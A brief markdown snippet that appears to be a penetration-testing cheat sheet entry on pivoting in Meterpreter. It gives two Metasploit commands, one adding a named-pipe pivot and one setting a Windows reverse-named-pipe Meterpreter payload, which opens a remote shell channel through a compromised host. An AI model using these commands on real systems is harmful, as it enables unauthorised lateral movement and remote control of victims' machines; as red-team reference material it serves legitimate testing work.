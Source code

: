 # Meterpreter

#### Pivoting in Meterpreter
`pivot add -t pip -l PIPEHOST -n PIPENAME -a <x86 or x64> -p windows`
`set payload windows/meterpreter/reverse_named_pipe`
